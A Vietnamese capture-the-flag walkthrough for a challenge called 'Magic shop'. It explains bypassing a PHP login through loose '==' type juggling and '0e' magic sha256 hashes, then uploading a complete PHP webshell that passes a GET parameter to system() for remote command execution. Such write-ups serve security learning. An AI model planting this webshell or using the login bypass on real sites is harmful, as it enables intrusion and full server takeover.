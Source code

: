 **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/9c946be9-fafe-4b1c-9427-41eeaa19844a)


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

